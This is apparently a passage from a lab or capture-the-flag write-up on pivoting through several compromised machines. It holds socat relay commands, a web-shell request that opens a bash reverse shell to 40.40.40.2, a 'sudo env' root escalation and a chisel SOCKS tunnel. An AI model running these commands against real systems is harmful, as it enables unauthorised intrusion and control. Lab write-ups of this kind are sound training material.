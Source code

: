     
    - we find where the file we have just uploaded is located and see that we can execute the following commands
        
        ![image 46](https://github.com/user-attachments/assets/8b35c324-a5bf-41ff-bae0-7acd4ef18a7b)

        
    
    - We create a tunnel so that when doing a reverse shell we get to our computer.
        
        ```bash
        #Victim 1 (10.10.10.2)
        ./socat TCP-LISTEN:6662,fork TCP:10.10.10.1:6666
        
        #Victim 2 (20.20.20.3)
        ./socat TCP-LISTEN:6661,fork TCP:20.20.20.2:6662
        
        #Victim 3 (30.30.30.3)
        ./socat TCP-LISTEN:6666,fork TCP:30.30.30.2:6661
        ```
        
    
    - we make the request to create the reverse shell
        
        ![image 47](https://github.com/user-attachments/assets/5e216ed0-711b-4327-bc0d-e8e516f884e6)

        
        ```bash
        http://40.40.40.3/uploads/a.php?cmd=bash -c "bash -i >%26 /dev/tcp/40.40.40.2/6666 0>%261"
        ```
        
        ![image 48](https://github.com/user-attachments/assets/ccd70664-e063-4d49-a540-51b3ba527b4a)

        
    
    - We connect as www-data and list the commands that we can execute as sudo without providing a password
        
        ![image 49](https://github.com/user-attachments/assets/fc4696fc-a676-446f-a6c3-261b90dcde21)

        
    
    - We search in gtfobins for ways to escalate privileges with sudo env and become root
        
        ```bash
        sudo env /bin/sh
        ```
        
        ![image 50](https://github.com/user-attachments/assets/ff89d167-a4d9-4067-b9ec-96423a124191)

        
    
    - We create a tunnel between the three machines using `chisel` and `socat`
        
        ```bash
        #Execute this from the 40.40.40.3 machine
        ./chisel client 40.40.40.2:7776 R:7777:socks
        
        #Execute this from the 30.30.30.3 machine
        ./socat TCP-LISTEN:7776,fork TCP:30.30.30.2:7775
        